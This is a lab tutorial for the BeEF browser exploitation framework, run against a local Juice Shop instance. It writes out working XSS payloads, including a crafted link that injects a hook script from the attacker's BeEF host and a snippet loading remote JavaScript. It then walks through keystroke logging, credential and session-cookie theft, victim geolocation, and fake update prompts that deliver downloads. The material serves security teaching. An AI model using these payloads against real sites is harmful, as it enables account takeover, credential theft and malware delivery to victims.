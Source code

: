 # BeEF Tutorial

This tutorial assumes you followed the [installation instructions](README.md)
and that the BeEF application is up and running, and can be reached at
[http://beef.local:3000](http://beef.local:3000), and that Juice Shop is up and
running, and can be reached at
[http://vulnerable.local:3500](http://vulnerable.local:3500).

Let's see what you can do with BeEF: This tutorial will show you, as an
attacker, what you can do to a victim, by exploiting a Cross-Site Scripting
vulnerability.

## Attacker's point of view (1)

First, let's log onto BeEF's administrative panel by going to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel) Enter here
the login credentials (the default username / password is `beefadmin` /
`difficultpassword`).

This is the view point of the attacker. At the left hand there's an overview
with Hooked Browsers: clients that can be controlled by the BeEF framework. When
starting up, this will be empty.

## Victim's point of view

For the victim's point of view, open a _new browser window_. Let's now surf to a
vulnerable site which contains a Cross-Site Scripting vulnerability. Go to
[http://vulnerable.local:3500](http://vulnerable.local:3500) and click on the
search icon in the top right. This will open up a search box. Search for
"banana". This will return all results having "banana" in their description.

Now, an attacker discovered that the site contains a Cross-Site Scripting
vulnerability. Search for the term
```javascript
<img src=a onerror=alert(1)>
```

[<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>](<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>).

This will execute a reflected Cross-Site Scripting payload - an alert box will
pop up, showing a 1.

What's the damage, you'd think? Just an alert box, right? Well, this tutorial
will show you how you much damage you can do with 'just' a Cross-Site Scripting
exploit...

Say that the attacker crafted a link pointing to the vulnerable site, which
would execute a bit more realistic payload. It is up to the attacker to entice
victims to click on that link, for example by social engineering, using link
shorteners and messaging the link.

Click on the following link, prepared by the attacker:
[http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple](<http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple>)

Nothing weird happens, right? You don't see results, but that's all. Say now
that the victim wants to log on to the site, and clicks on the account link top
right. Fill in the account details of an existing account: `admin@juice-sh.op` /
`admin123`.

The victim is logged in, and everything looks okay.

However, the payload contained a hook to the attacker's BeEF instance:
`<script src="http://beef.local:3000/hook.js">`. What does this do? Well, this
ensures that the web site _is hooked_ onto the BeEF application.

## Attacker's point of view (2)

Switching back to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel), at the left
hand you can see that a victim is online: a browser is currently hooked. From
the moment the victim clicked on the link, the attacker controlled all of the
web content in the [http://vulnerable.local:3000](http://vulnerable.local:3000)
tab. Click in the left hand on the hooked browser in the `vulnerable.local`
domain.

On the active tab _Details_ you can see all kinds of information about the
victim: The operating system for example, but also screen resolution for
example, settings, and enabled browser plugins.

Select the tab _Logs_. Here you can see what the victim is doing during this
session. **All entered text as well as mouse and keyboard commands are
intercepted**. If you look carefully you can read the username, and password
that the user entered.

**The attacker successfully stole the username and password**

### Grabbing the session cookie

Select the _Commands_ tab. This is where the majority of actions will be
performed. In the Module Tree, search for _cookie_. Select _Get Cookie_. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

In the _Module Results History_ section, an entry appears, with the selected
command. If you click on the command, which will have label _command 1_, you
will see the results at the right hand side. This is the session cookie of the
logged in user: all that the attacker needs to take over the victim's session.

**The attacker successfully stole the session cookie**

### Fingerprint the victim

Let's fingerprint the browser, so the victim can be followed.

Search for _fingerprint_, and click on the _Fingerprint Browser_ module. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

Search for _geolocation_ and select the _Get Geolocation (Third Party)_ module.
In the rightmost side, select for example the second entry,
`https://ip.nf/me.json` API. you now click on _Execute_, the attacker will find
out where the victim, visiting
[http://vulnerable.local:3500](http://vulnerable.local:3500), will be located.

**The attacker successfully fingerprinted and located the victim**

### Trick the victim

Next the attacker can trick the victim into divulging secrets. Search for
_Pretty Theft_ and execute that module. The victim will now see a popup, asking
to enter a username and password. This is how credentials can be stolen.

For another example, search for _Fake_ and select the _Fake Flash Update_
module. This will send a convincingly looking update notification. As soon as
the victim clicks **anywhere**, a file will be downloaded. The payload itself
can be modified in the web interface.

For another example, search for _Notification_ and select the _Fake Notification
Bar (Chrome)_ module. This will send a notification to the victim. If the victim
clicks on the notification, it will download a binary file. Note that this step
will fail (the binary file isn't present on our Attacker server), but this will
demonstrate how easy it is to trick victims.

### Fun and games

Just for fun, play a sound on the victim's computer. Search for _sound_ and
execute the _Play Sound_ module.

Is the sound on? Then we can do better... Search for _raw_ and select the _Raw
JavaScript_ module. Paste the following code in the JavaScript Code window:

```
var b = document.createElement('script');
b.type = 'text/javascript';
b.src = 'http://extract.pw/shake.js';
document.body.appendChild(b);
```

Click on _Execute_.

**The attacker successfully executed arbitrary JavaScript**

### GOD exploit

For the ultimate exploit, search for _rick_ and select the _Redirect Browser
(Rickroll)_ module. Execute this module, and the victim will be shown the
infamous Rick Astley video.

Of course these are all benign examples, but imagine what a skilled attacker can
do, having such control over the victim's browser and ultimately security of its
operating system.
